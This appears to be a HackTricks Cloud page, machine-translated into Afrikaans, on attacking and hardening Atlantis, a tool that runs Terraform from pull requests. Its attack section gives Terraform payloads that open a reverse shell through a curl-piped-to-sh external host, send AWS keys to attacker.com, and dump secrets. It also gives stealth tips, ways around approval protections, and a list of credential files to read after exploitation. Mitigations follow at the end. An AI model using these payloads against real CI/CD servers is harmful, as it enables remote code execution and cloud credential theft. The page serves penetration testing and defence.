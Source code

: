 # Atlantis Sekuriteit

<details>

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Basiese Inligting

Atlantis help jou basies om terraform vanaf Pull-aanvrae van jou git-bediener te hardloop.

![](<../.gitbook/assets/image (161).png>)

## Plaaslike Laboratorium

1. Gaan na die **atlantis vrystellingsbladsy** op [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) en **laai af** die een wat by jou pas.
2. Skep 'n **persoonlike token** (met repo-toegang) van jou **github**-gebruiker
3. Voer `./atlantis testdrive` uit en dit sal 'n **demonstrasie-repo** skep wat jy kan gebruik om met atlantis te **praat**
1. Jy kan die webbladsy besoek by 127.0.0.1:4141

## Atlantis Toegang

### Git-bedienergelde

**Atlantis** ondersteun verskeie git-gashere soos **Github**, **Gitlab**, **Bitbucket** en **Azure DevOps**.\
Nietemin, om toegang tot die ooreenstemmende repos te verkry en aksies uit te voer, moet daar aan hulle 'n sekere **bevoorregte toegang verleen word** (ten minste skryftoestemmings).\
[**Die dokumente**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) moedig aan om 'n gebruiker in hierdie platforms spesifiek vir Atlantis te skep, maar sommige mense mag persoonlike rekeninge gebruik.

{% hint style="warning" %}
In enige geval, vanuit 'n aanvaller se perspektief, gaan die **Atlantis-rekening** een wees wat baie **interessant is om te kompromiteer**.
{% endhint %}

### Webhooks

Atlantis gebruik opsioneel [**Webhook-geheime**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) om te valideer dat die **webhooks** wat dit van jou Git-bediener ontvang, **wettig** is.

Een manier om dit te bevestig sou wees om **versoeke net vanaf die IP-adresse** van jou Git-bediener toe te laat, maar 'n makliker manier is om 'n Webhook-geheim te gebruik.

Let daarop dat tensy jy 'n privaat github- of bitbucket-bediener gebruik, sal jy die webhook-eindpunte aan die internet moet blootstel.

{% hint style="warning" %}
Atlantis gaan **webhooks blootstel** sodat die git-bediener dit inligting kan stuur. Vanuit 'n aanvaller se perspektief sou dit interessant wees om te weet **of jy dit kan gebruik om boodskappe te stuur**.
{% endhint %}

### Verskaffer Gelde

[Vanuit die dokumente:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis hardloop Terraform deur eenvoudigweg `terraform plan` en `apply`-opdragte op die bediener **waarop Atlantis gehuisves is** uit te voer. Net soos wanneer jy Terraform plaaslik hardloop, benodig Atlantis gelde vir jou spesifieke verskaffer.

Dit is aan jou hoe jy [gelde voorsien](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) vir jou spesifieke verskaffer aan Atlantis:

* Die Atlantis [Helm Grafiek](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) en [AWS Fargate Module](https://www.runatlantis.io/docs/deployment.html#aws-fargate) het hul eie meganismes vir verskaffer gelde. Lees hul dokumente.
* As jy Atlantis in 'n wolk hardloop, het baie wolke maniere om wolk-API-toegang te gee aan aansoeke wat op hulle hardloop, bv.:
* [AWS EC2-rolle](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Soek na "EC2-rol")
* [GCE-instansie-diensrekeninge](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Baie gebruikers stel omgewingsveranderlikes in, bv. `AWS_ACCESS_KEY`, waar Atlantis hardloop.
* Ander skep die nodige konfigurasie lêers, bv. `~/.aws/credentials`, waar Atlantis hardloop.
* Gebruik die [HashiCorp Vault Verskaffer](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) om verskaffer gelde te verkry.

{% hint style="warning" %}
Die **houer** waar **Atlantis** op **hardloop**, sal hoogstwaarskynlik **bevoorregte gelde** vir die verskaffers (AWS, GCP, Github...) wat Atlantis via Terraform bestuur, bevat.
{% endhint %}

### Webbladsy

Standaard sal Atlantis 'n **webbladsy in poort 4141 in plaaslike host** hardloop. Hierdie bladsy laat jou net toe om atlantis apply aan en af te skakel en die planstatus van die repos te kontroleer en hulle te ontgrendel (dit laat nie toe om dinge te wysig nie, so dit is nie baie nuttig nie).

Jy sal dit waarskynlik nie aan die internet blootgestel vind nie, maar dit lyk asof **geen gelde nodig is** om dit te benader (en as dit wel is, is `atlantis`:`atlantis` die **verstek** een).

## Bedienerkonfigurasie

Konfigurasie vir `atlantis bediener` kan gespesifiseer word deur middel van opdraglynvlaggies, omgewingsveranderlikes, 'n konfig-lêer of 'n mengsel van die drie.

* Jy kan [**hier die lys van vlaggies**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) wat deur Atlantis-bedieners ondersteun word, vind
* Jy kan [**hier vind hoe om 'n konfig-opsie in 'n omgewingsveranderlike te omskep**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Waardes word **in hierdie volgorde gekies**:

1. Vlaggies
2. Omgewingsveranderlikes
3. Konfig-lêer

{% hint style="warning" %}
Let daarop dat in die konfigurasie jy moontlik interessante waardes soos **tokens en wagwoorde** kan vind.
{% endhint %}

### Repos Konfigurasie

Sommige konfigurasies beïnvloed **hoe die repos bestuur word**. Dit is egter moontlik dat **elke repo verskillende instellings benodig**, dus is daar maniere om elke repo te spesifiseer. Dit is die prioriteitsvolgorde:

1. Repo [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) lêer. Hierdie lêer kan gebruik word om te spesifiseer hoe atlantis die repo moet hanteer. Tog kan sommige sleutels nie standaard hier gespesifiseer word sonder sekere vlaggies wat dit toelaat nie.
1. Waarskynlik nodig om toegelaat te word deur vlaggies soos `allowed_overrides` of `allow_custom_workflows`
2. [**Bedienerkant Konfig**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Jy kan dit deurgee met die vlag `--repo-config` en dit is 'n yaml wat nuwe instellings vir elke repo konfigureer (regexes ondersteun)

3. **Verstek** waardes
#### PR Beskerming

Atlantis maak dit moontlik om aan te dui of jy wil hê dat die **PR** deur iemand anders **`goedgekeur`** moet word (selfs al is dit nie ingestel in die takbeskerming nie) en/of **`saamvoegbaar`** moet wees (takbeskerming geslaag) **voordat die toepassing uitgevoer word**. Vanuit 'n veiligheidsoogpunt word dit aanbeveel om beide opsies in te stel.

In geval van `allowed_overrides` is Waar, kan hierdie instellings **oor geskryf word op elke projek deur die `/atlantis.yml` lêer**.

#### Skripte

Die repo-konfigurasie kan **skripte spesifiseer** om uit te voer [**voor**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre werkstroom hakies_) en [**na**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post werkstroom hakies_) 'n **werkstroom uitgevoer word**.

Daar is geen opsie om hierdie skripte in die **repo `/atlantis.yml`** lêer te **spesifiseer** nie.

#### Werkvloei

In die repo-konfigurasie (bedienerkant-konfigurasie) kan jy [**'n nuwe verstek-werkvloei spesifiseer**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), of [**nuwe aangepaste werkvloei skep**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Jy kan ook **spesifiseer** watter **repos** toegang kan hê tot die **nuwe** gegenereerdes.\
Daarna kan jy die **atlantis.yaml** lêer van elke repo toelaat om die werkvloei te **spesifiseer** wat gebruik moet word.

{% hint style="danger" %}
Indien die [**bedienerkant-konfigurasie**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) vlag `allow_custom_workflows` op **Waar** ingestel is, kan werkvloei in die **`atlantis.yaml`** lêer van elke repo **gespesifiseer** word. Dit is moontlik ook nodig dat **`allowed_overrides`** ook **`werkvloei`** spesifiseer om die werkvloei wat gebruik gaan word, te **oorheers**.\
Dit sal basies **RCE in die Atlantis-bedieners aan enige gebruiker wat toegang tot daardie repo kan verkry**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest Beleidskontrole

Atlantis ondersteun die hardloop van **bedienerkant** [**conftest**](https://www.conftest.dev/) **beleide** teen die plan uitset. Algemene gevalle vir die gebruik van hierdie stap sluit in:

* Weiering van die gebruik van 'n lys modules
* Bevestiging van eienskappe van 'n hulpbron tydens skepping
* Vang van onbedoelde hulpbronverwyderings
* Voorkoming van sekuriteitsrisiko's (d.w.s. blootstelling van veilige poorte aan die publiek)

Jy kan sien hoe om dit te konfigureer in [**die dokumentasie**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Atlantis Opdragte

[**In die dokumentasie**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) kan jy die opsies vind wat jy kan gebruik om Atlantis te hardloop:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Aanvalle

{% hint style="warning" %}
Indien jy tydens die uitbuiting hierdie **fout** vind: `Fout: Fout met die verkryging van die toestandsluit`

Jy kan dit regmaak deur die volgende uit te voer:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - Konfigurasie wysiging in nuwe PR

Indien jy skryftoegang het tot 'n bewaarplek, sal jy in staat wees om 'n nuwe tak daarop te skep en 'n PR te genereer. As jy **`atlantis plan` kan uitvoer** (of dit word dalk outomaties uitgevoer) **sal jy binne die Atlantis-bediener kan RCE**.

Jy kan dit doen deur [**Atlantis om 'n eksterne data-bron te laat laai**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Plaas net 'n lading soos die volgende in die `main.tf` lêer:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Steiler Aanval

Jy kan hierdie aanval selfs op 'n **steiler manier** uitvoer, deur hierdie voorstelle te volg:

* In plaas daarvan om die rev shell direk in die terraform-lêer by te voeg, kan jy 'n **eksterne hulpbron laai** wat die rev shell bevat:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Jy kan die rev shell kode vind in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* In die eksterne bron, gebruik die **ref** funksie om die **terraform rev shell kode in 'n tak** binne die repo te verberg, iets soos: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **In plaas daarvan** om 'n **PR na meester** te skep om Atlantis te trigger, **skep 2 takke** (test1 en test2) en skep 'n **PR van een na die ander**. Wanneer jy die aanval voltooi het, **verwyder net die PR en die takke**.

### Atlantis plan Secrets Dump

Jy kan **geheime wat deur terraform gebruik word dump** deur `atlantis plan` (`terraform plan`) te hardloop deur iets soos dit in die terraform lêer te plaas:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis pas RCE toe - Konfigurasiewysiging in nuwe PR

Indien jy skryftoegang het tot 'n bewaarplek, sal jy in staat wees om 'n nuwe tak daarop te skep en 'n PR te genereer. As jy **`atlantis apply` kan uitvoer, sal jy in staat wees om RCE binne die Atlantis-bediener** uit te voer.

Gewoonlik sal jy egter 'n paar beskermings moet omseil:

- **Mergeable**: As hierdie beskerming in Atlantis ingestel is, kan jy slegs **`atlantis apply` hardloop as die PR mergeable is** (wat beteken dat die takbeskerming omseil moet word).
- Kontroleer potensiële [**takbeskermingsomseilings**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Goedgekeur**: As hierdie beskerming in Atlantis ingestel is, moet **'n ander gebruiker die PR goedkeur** voordat jy `atlantis apply` kan hardloop
- Standaard kan jy die [**Gitbot-token misbruik om hierdie beskerming te omseil**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Deur **`terraform apply` uit te voer op 'n skadelike Terraform-lêer met** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Jy hoef net te verseker dat 'n sekere lading soos die volgende in die `main.tf`-lêer eindig:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Volg die **aanbevelings van die vorige tegniek** om hierdie aanval op 'n **meer onopvallende manier** uit te voer.

### Terraform Param Injeksie

Wanneer `atlantis plan` of `atlantis apply` uitgevoer word, word terraform agter-die-skerm uitgevoer, jy kan bevele na terraform deurgee van atlantis deur iets soos te kommentarieer:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Iets wat jy kan deurgee is omgewingsveranderlikes wat nuttig kan wees om sekere beskermings te omseil. Kyk na terraform omgewingsveranderlikes in [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Aangepaste Werkvloei

Die uitvoering van **skadelike aangepaste bou-opdragte** wat gespesifiseer is in 'n `atlantis.yaml` lêer. Atlantis gebruik die `atlantis.yaml` lêer van die trekversoek-tak, **nie** van `master`.\
Hierdie moontlikheid is genoem in 'n vorige afdeling:

{% hint style="danger" %}
As die [**bedienerkant konfig**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) vlag `allow_custom_workflows` ingestel is op **True**, kan werkvloei **gespesifiseer** word in die **`atlantis.yaml`** lêer van elke repo. Dit is ook moontlik nodig dat **`allowed_overrides`** ook **`workflow`** spesifiseer om die werkvloei te **oorheers wat gebruik gaan word**.

Dit sal basies **RCE in die Atlantis-bedieners aan enige gebruiker gee wat daardie repo kan bereik**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Bypass beplanning/toepassing beskerming

Indien die [**bedienerkant konfig**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) vlag `allowed_overrides` _gekonfigureer_ is met `apply_requirements`, is dit moontlik vir 'n repo om die beplanning/toepassing beskerming te **omseil om hulle te verbygaan**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR Oorname

Indien iemand **`atlantis plan/apply` kommentaar op jou geldige trekversoeke stuur,** sal dit veroorsaak dat terraform loop wanneer jy dit nie wil nie.

Verder, as jy nie in die **takbeskerming** ingestel het om te vra om **heroorweging** van elke trekversoek wanneer 'n **nuwe toewysing gedoen word** daaraan nie, kan iemand **boosaardige opset** (kyk na vorige scenarios) in die terraform opstelling skryf, `atlantis plan/apply` hardloop en RCE verkry.

Dit is die **instelling** in Github takbeskerming:

![](<../.gitbook/assets/image (216).png>)

### Webhook Geheim

As jy daarin slaag om die webhook geheim te **steel** wat gebruik word of as daar **geen webhook geheim** gebruik word nie, kan jy die Atlantis webhook **oproep** en **atlantis bevele** direk aanroep.

### Bitbucket

Bitbucket Cloud ondersteun **nie webhook geheime nie**. Dit kan aanvallers toelaat om versoek van Bitbucket te **vervalste**. Maak seker dat jy slegs Bitbucket IP-adresse toelaat.

* Dit beteken dat 'n **aanvaller** **vals versoek aan Atlantis** kan maak wat lyk asof dit van Bitbucket afkomstig is.
* As jy `--repo-allowlist` spesifiseer, kan hulle slegs vals versoek maak met betrekking tot daardie repos, sodat die meeste skade wat hulle kan aanrig, sou wees om plan/apply op jou eie repos te doen.
* Om dit te voorkom, lys [Bitbucket se IP-adresse](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) op (sien Uitgaande IPv4-adresse).

## Post-Exploitation

As jy toegang tot die bediener verkry het of ten minste 'n LFI het, is daar 'n paar interessante dinge wat jy moet probeer lees:

* `/home/atlantis/.git-credentials` Bevat vcs toegangskrediete
* `/atlantis-data/atlantis.db` Bevat vcs toegangskrediete met meer inligting
* `/atlantis-data/repos/<org_naam>`_`/`_`<repo_naam>/<pr_nommer>/<werkspasie>/<pad_na_gids>/.terraform/terraform.tfstate` Terraform staatlêer
* Voorbeeld: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Omgewingsveranderlikes
* `/proc/[2-20]/cmdline` Cmd lyn van `atlantis server` (kan sensitiewe data bevat)

## Versagtings

### Moet Nie Op Openbare Repos Gebruik Word <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Omdat enigiemand kommentaar kan lewer op openbare trekversoeke, selfs met al die beskikbare sekuriteitsversagtings, is dit steeds gevaarlik om Atlantis op openbare repos te hardloop sonder behoorlike konfigurasie van die sekuriteitsinstellings.

### Moet Nie `--allow-fork-prs` Gebruik Nie <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

As jy op 'n openbare repo hardloop (wat nie aanbeveel word nie, sien hierbo) moet jy nie `--allow-fork-prs` instel (verstek na vals) nie omdat enigiemand 'n trekversoek van hul vurk na jou repo kan oopmaak.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis vereis dat jy 'n lys van toegelate repositoriums spesifiseer waarvandaan dit webhooks sal aanvaar via die `--repo-allowlist` vlag. Byvoorbeeld:

* Spesifieke repositoriums: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Jou hele organisasie: `--repo-allowlist=github.com/runatlantis/*`
* Elke repositorium in jou GitHub Enterprise-installasie: `--repo-allowlist=github.yourcompany.com/*`
* Alle repositoriums: `--repo-allowlist=*`. Nuttig wanneer jy in 'n beskermde netwerk is, maar gevaarlik sonder om ook 'n webhook geheim in te stel.

Hierdie vlag verseker dat jou Atlantis-installasie nie met repositoriums gebruik word wat jy nie beheer nie. Sien `atlantis server --help` vir meer inligting.

### Beskerm Terraform Beplanning <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

As aanvallers trekversoeke met boosaardige Terraform-kode indien jou bedreigingsmodel is, moet jy bewus wees dat `terraform apply` goedkeurings nie genoeg is nie. Dit is moontlik om boosaardige kode in 'n `terraform plan` uit te voer deur die [`external` data bron](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) te gebruik of deur 'n boosaardige verskaffer te spesifiseer. Hierdie kode kan dan jou geloofsbriewe uitlees.

Om dit te voorkom, kan jy:

1. Verskaffers in die Atlantis-beeld of -gasheer baklei en uitgaande verkeer in produksie ontken.
2. Implementeer die verskafferregisterprotokol intern en ontken openbare uitgaande verkeer, sodat jy beheer oor wie skryftoegang tot die register het.
3. Wysig jou [bedienerkant-repo-konfigurasie](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan`-stap om te valideer teen die gebruik van verbode verskaffers of data-bronne of trekversoeke van nie toegelate gebruikers. Jy kan ook op hierdie punt ekstra validering byvoeg, bv. 'n "duim-op" op die trekversoek vereis voordat die `plan` kan voortgaan. Conftest kan hier nuttig wees.

### Webhook Geheime <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis moet met Webhook-geheime hardloop word wat deur die `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` omgewingsveranderlikes ingestel is. Selfs met die `--repo-allowlist` vlag ingestel, sonder 'n webhook-geheim, kan aanvallers versoek aan Atlantis maak wat voordoen as 'n repositorium wat toegelaat is. Webhook-geheime verseker dat die webhook-versoeke werklik van jou VCS-leweransier (GitHub of GitLab) afkomstig is.

As jy Azure DevOps gebruik, voeg in plaas van webhook-geheime 'n basiese gebruikersnaam en wagwoord by.

### Azure DevOps Basiese Verifikasie <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps ondersteun die stuur van 'n basiese verifikasie-kop in alle webhook-gebeure. Dit vereis dat jy 'n HTTPS-URL vir jou webhook-plek gebruik.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

As jy webhook-geheime gebruik, maar jou verkeer oor HTTP is, kan die webhook-geheime gesteel word. Skakel SSL/HTTPS in deur die `--ssl-cert-file` en `--ssl-key-file` vlae te gebruik.

### Skakel Verifikasie op Atlantis-webbediener in <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Dit word sterk aanbeveel om verifikasie in die webdiens in te skakel. Skakel Basiese Verifisering in deur die `--web-basic-auth=true` te gebruik en stel 'n gebruikersnaam en wagwoord in deur die `--web-username=jouGebruikersnaam` en `--web-password=jouWagwoord` vlae te gebruik.

Jy kan hierdie ook as omgewingsveranderlikes deurgee `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=jouGebruikersnaam` en `ATLANTIS_WEB_PASSWORD=jouWagwoord`.

## Verwysings

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
